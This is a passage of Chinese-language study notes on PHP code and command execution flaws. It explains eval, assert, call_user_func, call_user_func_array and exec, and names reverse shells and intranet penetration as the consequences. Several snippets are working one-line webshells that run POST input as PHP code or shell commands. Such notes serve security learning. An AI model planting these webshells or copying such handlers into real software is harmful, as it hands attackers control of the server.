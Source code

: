    **危害**  
   ```text
   a.继承Web服务程序的权限去执行系统命令或读写文件
   b.反弹shell，获取目标服务器的权限
   c.进一步内网渗透
   ```
2. 执行函数
   - **eval**
     
     把字符串code作为PHP代码执行
     > <?php @eval($_POST['cmd']);?>
     > 
     > 注意：eval()函数传入的参数必须为PHP代码，即要以分号结尾；
     
     <br/>
   - **assert**
     
     如果参数是字符串，它将会被assert()当作PHP代码来执行
     > <?php @assert($_POST['cmd'])?>
     > 
     > assert：检查一个断言是否为FALSE
     > 
     > 注意：assert()函数是直接将传入的参数当成PHP代码执行，不需要已分号结尾
   - **call_user_func**
     ```php
     <?php
       call_user_func("assert",$_POST['cmd']);
       //传入的参数作为assert函数的参数
       //cmd=system(whoami)
     ?>
     ```
     > 第一个参数‘assert’是被调用的回调函数，其余参数是回调函数的参数
     > 
     > 把第一个参数作为回调函数调用
   - **call_user_func_array**
     ```php
     <?php 
     $cmd=$_POST['cmd'];
     $array[0]=$cmd;
     call_user_func_array("assert",$array);
     //将传入的参数作为数组的第一个值传递给assert函数
     //cmd=system(whoami)
     ?>
     ```
     
     函数功能同call_user_func，只不过参数变成数组
3. 系统命令执行
   > system()：执行外部程序，并且显示输出；
exec()：执行一个外部程序
shell_exec()：通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
passthru()：执行unix系统命令并且显示原始输出
pcntl_exec()：在当前进程空间执行指定程序*
popen()：打开进程文件指针
proc_open()：执行一个命令，并且打开用来输入/输出的文件指针。
   - exec
     ```php
     <?php
     // 输出运行中的 php/httpd 进程的创建者用户名
     // （在可以执行 "whoami" 命令的系统上）
     // echo exec('whoami');
     // exec('ls -la', $return);
     // var_dump($return);
     $cmd=$_POST['cmd'];
     @exec($cmd, $return);
     var_dump($return)
     ?>